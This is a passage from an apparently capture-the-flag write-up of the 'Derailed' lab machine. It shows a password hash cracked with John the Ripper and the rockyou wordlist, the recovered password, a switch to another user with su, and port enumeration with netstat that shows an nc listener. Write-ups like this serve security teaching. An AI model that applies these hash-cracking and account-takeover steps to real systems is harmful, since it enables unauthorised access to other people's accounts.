 Great! After checking the ```/etc/passwd``` file, we have confirmed that the ```openmediavault-webgui``` user corresponds to Toby Wright.

So let's crack the toby hash and login with openmediavault-webgui user 

```bash
# Use this for crack the Hash
john -w=/usr/share/wordlists/rockyou.txt toby_hash 

# Use this for show the password
john toby_hash --show 
?: greenday

1 password hash cracked, 0 left

```

So the password of openmediavault-webgui user is ```greenday```

With this, we can su to the openmediavault-webgui user.

```bash
rails@derailed:/var/www/rails-app/db$ su openmediavault-webgui
Password:                  
openmediavault-webgui@derailed:/var/www/rails-app/db$ cd /home/openmediavault-webgui/
openmediavault-webgui@derailed:~$ ls
openmediavault-webgui@derailed:~$ ls -la
total 12
drwxr-xr-x 3 openmediavault-webgui openmediavault-webgui 4096 Jul 21 05:42 .
drwxr-xr-x 5 root                  root                  4096 Nov 20  2022 ..
lrwxrwxrwx 1 openmediavault-webgui openmediavault-webgui    9 Nov  4  2022 .bash_history -> /dev/null
drwx------ 2 openmediavault-webgui openmediavault-webgui 4096 Jul 21 06:08 .ssh
openmediavault-webgui@derailed:~$ 
```

### **<strong><font color="DarkCyan">OpenMediaVault</font></strong>**


During my earlier observation, I noticed an OMV (OpenMediaVault) instance running on the machine. Running the ```netstat -lputn``` command further confirms that it is actively listening on port 80

```bash
openmediavault-webgui@derailed:~$ netstat -lputn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:80            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:34045         0.0.0.0:*               LISTEN      -                   
tcp        0      0 10.10.11.190:5357       0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3003          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      21455/nc            
```